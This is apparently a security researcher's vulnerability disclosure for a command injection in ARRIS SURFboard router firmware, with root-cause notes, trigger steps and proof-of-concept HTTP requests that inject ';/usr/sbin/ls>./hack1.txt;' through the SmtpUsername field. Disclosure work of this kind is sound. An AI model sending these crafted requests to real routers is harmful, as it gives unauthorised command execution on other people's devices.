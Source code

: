 # ARRIS Vulnerability

Vendor:ARRIS

Product:SBR-AC1900P、SBR-AC3200P、SBR-AC1200P

Version:1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000REKViAAP&c=SURFboard%20Routers#panel4)

1.0.7-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlajgAAB&c=SURFboard%20Routers#panel4)

1.0.5-B05(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000RpnMpAAJ&c=SURFboard%20Routers#panel4)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `firewall-local log` function, `EmailAddress、SmtpServerName、SmtpUsername、SmtpPassword` is directly passed by the attacker, so we can control the `EmailAddress、SmtpServerName、SmtpUsername、SmtpPassword` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `scnvram_set` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

In `sub_33B70` function, the initial input has not checked and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:60%;" /></div>

**The prerequisites for reaching the vulnerability point are ②: The firewall function needs to be turned on, and there are firewall logs.（v15.st_size<=10）**

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.What’s more interesting is that in the front-end interface, the user’s input is not checked either.

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* Turn on the firewall function and be able to store certain log information
* Set smtp configuration and apply
* Send_Email_Log

> Complete vulnerability verification on SBR-AC1900P product



## PoC

Turn on the firewall function and be able to store certain log information

```http
POST /setup.cgi?id=56c3f184 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/RgContentFilter.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

firewall_option=3&v6firewall_option=0&PortScanDetection=1&this_file=RgContentFilter.htm&next_file=RgContentFilter.htm
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

**After enabling the above functions, use any machine to execute the ping command, the purpose is to save the information in the firewall log of the router (in order to trigger the vulnerability, the firewall log is necessary)**

At this time, the firewall log has saved a small amount of information, and the vulnerability triggering conditions have been met.

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

Set smtp configuration and apply

```http
POST /setup.cgi?id=3b9f8a00 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 223
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/RgFirewallEL.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

EmailAddress=pengjiaqian%40iie.ac.cn&SmtpServerName=smtp.gmail.com&SmtpUsername=%3B%2Fusr%2Fsbin%2Fls%3E.%2Fhack1.txt%3B&SmtpPassword=123123123&EmailAlerts=1&LogAction=0&this_file=RgFirewallEL.htm&next_file=RgFirewallEL.htm
```

<div  align="center"><img src="./images/7.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/8.png" style="zoom:80%;" /></div>

We set `SmtpUsername` as **`%3B%2Fusr%2Fsbin%2Fls%3E.%2Fhack1.txt%3B`** , The meaning of this command is **;/usr/sbin/ls>./hack1.txt;**，and the router will excute it,such as:

```http
POST /setup.cgi?id=7bd13f54 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/RgFirewallEL.htm
Cookie: RebootType=1
Upgrade-Insecure-Requests: 1

EmailAddress=pengjiaqian%40iie.ac.cn&SmtpServerName=smtp.gmail.com&SmtpUsername=%3B%2Fusr%2Fsbin%2Fls%3E.%2Fhack1.txt%3B&SmtpPassword=123123123&EmailAlerts=&LogAction=1&this_file=RgFirewallEL.htm&next_file=RgFirewallEL.htm
```

<div  align="center"><img src="./images/9.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/10.png" style="zoom:80%;" /></div>



## Result

<div  align="center"><img src="./images/11.png" style="zoom:80%;" /></div>
